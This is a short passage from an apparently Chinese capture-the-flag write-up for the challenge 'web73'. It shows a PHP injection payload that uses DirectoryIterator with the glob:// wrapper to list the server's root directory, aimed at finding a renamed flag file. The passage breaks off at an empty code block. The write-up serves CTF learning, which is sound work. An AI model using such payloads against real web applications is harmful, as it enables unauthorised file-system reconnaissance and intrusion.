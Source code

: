 

<img src="https://i-blog.csdnimg.cn/blog_migrate/18be3755dddd4cf049447184c69acd9b.png" alt="" style="max-height:178px; box-sizing:content-box;" />


## web73

继续用伪协议读取

```php
c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');} exit(0);?>
```

发现相比 72修改了名字

看看读取

```cobol
```